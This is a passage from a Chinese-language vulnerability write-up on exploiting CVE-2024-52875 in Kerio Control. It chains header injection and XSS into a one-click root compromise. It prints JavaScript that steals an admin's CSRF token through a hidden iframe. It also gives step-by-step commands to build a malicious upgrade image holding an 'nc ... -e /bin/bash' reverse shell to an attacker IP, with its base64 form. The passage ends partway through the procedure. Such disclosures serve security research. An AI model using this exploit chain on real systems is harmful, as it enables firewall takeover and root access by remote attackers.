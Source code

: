   
您是否注意到，这次我们还在正文前注入了“ Content-Length ” HTTP 标头？这是必需的，因为这样我们就可以指示浏览器仅读取/解析 N 个字节的 HTTP 响应正文（忽略所有其余部分），其中 N 是“ Content-Length ”标头的值。如果我们不这样做，那么浏览器将继续读取/解析正文直到最后，并且我们将收到响应解码错误，因为注入正文后面的字符串不是有效的Deflate编码数据。  
  
下一步是将概念验证“武器化”，以显示真正的安全影响。但是，我注意到的第一个缺点是：当 Kerio Control 管理员用户登录管理界面时，应用程序将提供两个 cookie、一个使用HttpOnly属性设置的会话 ID ( SESSION_CONTROL_WEBADMIN )和一个CSRF令牌 ( TOKEN_CONTROL_WEBADMIN )。它们都设置为path=/admin/ ，这意味着我们无法 (?) 从位于/nonauth/目录下的页面直接访问这些 cookie（在本例中，只是CSRF令牌） 。  
  
实际上，如果我们在概念验证脚本中修改 XSS 有效负载以“警告” document.cookie的值，我们将看到一个空的警告框。就是这样：当我们在/nonauth/目录下的页面上时， document.cookie是空的，这是因为 cookie 的范围仅限于/admin/路径......不用担心，一个已有九年历史的漏洞可以解决这个问题：仍然可以通过使用 iframe 加载位于/admin/目录下的资源（如 JS 脚本）来“窃取”非HttpOnly cookie；一旦加载了这个，我们就可以通过iframe.contentWindow.document.cookie访问 cookie ，如下所示：  
  
```
function createIFrame(){
  iframe = document.createElement("iframe");
  iframe.src = "https://192.168.123.64:4081/admin/constants.js";
  iframe.style.display = "none";
  iframe.sandbox = "allow-scripts allow-same-origin";
  iframe.onload = function() {
    cookie = iframe.contentWindow.document.cookie;
    parseAndSaveCookie(cookie);
  };
  document.body.appendChild(iframe);
}
```  
  
  
太棒了！所以，我们现在能够“窃取”受害者管理员用户的CSRF令牌，并通过滥用 XSS 负载中的XMLHttpRequest API 代表他们执行任何操作。这意味着我们可以添加新的管理员用户、更改任何用户的密码、修改防火墙设置等等……只需诱骗受害者管理员用户点击恶意链接（一键攻击）！然而，这个九年前的漏洞还提到了一个有趣的“远程命令执行”问题：  
> 管理界面中的升级功能可用于上传任意文件，只需将 tar 文件更改为扩展名 .img 即可。如果创建包含 upgrade.sh shell 脚本的 tar 文件，则将以 root 权限执行此脚本。Kerio 尚未提供针对升级功能的修复。  
  
  
  
值得注意的是，九年后，这个“升级漏洞”仍然适用于最新的 Kerio Control 版本！所以，我猜这是一个设计功能，从供应商的角度来看可能不是一个真正的安全问题？无论如何，将其包含在我们的 XSS 负载中很有用，因为它可能导致一键RCE攻击，攻击者可能能够在 Kerio Control 实例上获取root shell ！🎉  
  
您可以在这里找到一个概念验证脚本，通过 XSS 向量利用CVE-2024-52875来重现此一键式RCE攻击，以下是使用它的步骤：  
  
1.按照漏洞利用中所述创建upgrade.img文件（使用攻击者的 IP 地址，假设为 192.168.123.38）：  
  
```
$ cat upgrade.sh
#!/bin/bash
nc 192.168.123.38 4444 -e /bin/bash &

$ tar czf upgrade.tar.gz upgrade.sh
$ mv upgrade.tar.gz upgrade.img
```  
  
  
2.启动以下命令以获取upgrade.img文件的 Base64 编码版本：  
  
```
$ cat upgrade.img | base64 -w 0
H4sIAAAAAAAAA+3OMQ6CQBSE4a05xTMmdi77YNnF44ASoCFGJPH4QkzUSitiTP6vmWKmmOncXqpTY8fOrMbNQvBLaizcez6EzKiP6r3GGINxqkVeGHHrXXqZxmt1ETFN298+7b71f2q7Set+SOtq7JLhKHrIrIbSapbbvBQ/k30jz43skl8/BgAAAAAAAAAAAAAAAAAs7g2Pz3gAKAAA
```  
  
